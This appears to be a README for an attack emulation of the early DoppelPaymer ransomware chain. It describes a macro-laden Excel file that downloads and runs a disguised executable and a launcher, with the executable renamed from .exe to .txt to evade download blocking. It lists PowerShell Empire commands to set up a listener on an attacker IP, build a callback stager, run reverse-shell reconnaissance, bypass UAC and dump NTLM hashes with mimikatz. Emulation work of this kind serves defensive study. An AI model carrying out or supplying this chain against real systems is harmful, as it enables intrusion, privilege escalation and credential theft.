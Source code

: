 # Attack Emulation of the Fore Part of Doppelpaymer Attack Chain
## Introduction
    An APT attack consists of various tactics, including initial access, credential access, and command and control.
    DoppelPaymer is a ransomware that have launched their attacks since 2019, threatening victims after stealing their files.
    We try to reproduce the attack scenario based on the fore part of Doppelpaymer attack chain.

## Victim's OS and requiremnts
* Edition: Windows 10 Home
* Version: 2004
* Microsoft Office
* 7-zip/WinRAR
* Windows Defender disabled

## Attacker's OS and requirements
* Kali Linux
* Empire


## Unzip
    In the folder unzip, we try to generate an executable file "unzip.exe" to extract file from "launcher.zip" with the password "123".
* Type "python run.py" to generate the file "unzip.exe".
* Requirements:
  - python==3.8.8
  - pyinstaller==4.3 

## Unzip.txt
    Because we cannot download the executable file directly, we change the file extension from .exe to .txt.
    After the modication, we can use macro to download the file directly by a given link.

## launcher.zip
    Contains the file "launcher.bat" with the password "123". 
    After executing the file "launcher.bat", the victim will connect to the empire server.

## project.xlsm
    It is a macro enabled excel document.
    The followings are what it will do:
    - Download the file "launcher.zip" to %temp% folder
    - Download the file "unzip.exe" to %temp% folder
    - Execute the file "unzip.exe" to get the file "launcher.bat"
    - Execute the file "launcher.bat" to connect to the empire server

## project.zip
    Contains project.xlsm with password '123'. 

## Empire Commands
* Generate the file "launcher.bat" to let the victim connect to the empire server:
    1. Use "uselistener http" to generate listener
        - set Name http
        - set Host 192.168.2.30 (attacker's ip)
        - set Port 8080
        - execute
    2. Use "usestager windows/launcher_bat" to generate the file "launcher.bat"
        - set Listener http
        - execute

* After the victim connects to the empire server, run the following commands:
    1. type "agents" to find the value of victim's Name (<victim_Name>)
    2. type "interact <victim_Name>"
    3. Reverse shell
        - shell tasklist
        - shell netstat
        - shell ipconfig
    4. Use "usemodule privesec/bypassuac" to get administrator privilege
        - set Listener http
        - execute
    5. Use "usemodule credentials/mimikatz/logonpasswords*" to get the victim's NTLM hash
        - execute

# Reference
* https://github.com/mishmashclone/BC-SECURITY-Empire
* https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/
* https://ethicalhackingguru.com/how-to-use-powershell-empire-3-the-powershell-empire-3-tutorial/
* https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf
* https://stackoverflow.com/questions/6934169/how-to-show-current-user-name-in-a-cell
* https://vblocalhost.com/uploads/VB2020-61.pdf
* https://github.com/DarkSecDevelopers/shellpy.git

